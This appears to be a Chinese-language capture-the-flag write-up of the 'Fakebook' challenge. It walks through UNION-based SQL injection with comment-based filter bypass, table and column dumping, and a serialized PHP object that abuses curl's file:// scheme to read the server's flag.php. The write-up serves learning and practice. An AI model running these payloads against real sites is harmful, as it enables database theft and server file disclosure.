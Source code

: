 ## 0x01 Fakebook

本题考点为SQL注入和SSRF，首先随意注册一个账户，进行登录后发现网址为

```
http://125afc2e-8d0c-4333-9d75-14d7fa2d63f1.node3.buuoj.cn/view.php?no=1
```

推断no=1为可注入点

进行注入后发现屏蔽空格，将空格换为`/**/`进行绕过屏蔽字，构造payload完成SQL注入获取内部的信息

Payload：

```
no=1 order by 4#  //发现order by 5时出现报错，推断有四列
no=0/**/union/**/select 1,2,3,4#  //通过报错页面得知2有回显
no=0/**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
                //爆表名发现有一个users表
no=0/**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
                //爆字段名发现username、passwd和data，username和passwd没有发现flag，data中发现一个反序列化对象
no=0/**/union/**/select 1,group_concat(data),3,4 from users#  //爆出data的值
```

发现data值为

```
O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:1;s:4:"blog";s:9:"1.1.1.com";}
```

同时使用dirsearch扫描目录发现`user.php.bak`![](/assets/捕鱼.png)下载`user.php.bak`发现定义可反序列化类UserInfo

```
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

发现\`function get函数中存在exec执行函数，但安全，因而将重点转向于curl\_getinfo\(\)函数。

发现可以采用file://伪协议进行文件读取，并且已知flag.php和view.php均位于/var/www/html/目录下，故构造payload：

```
$a = new UserInfo('1',2,'file:///var/www/html/flag.php');
```

获取反序列化字符串，得到

```
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

将反序列化字符串放入url中构造payload：

```
no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```



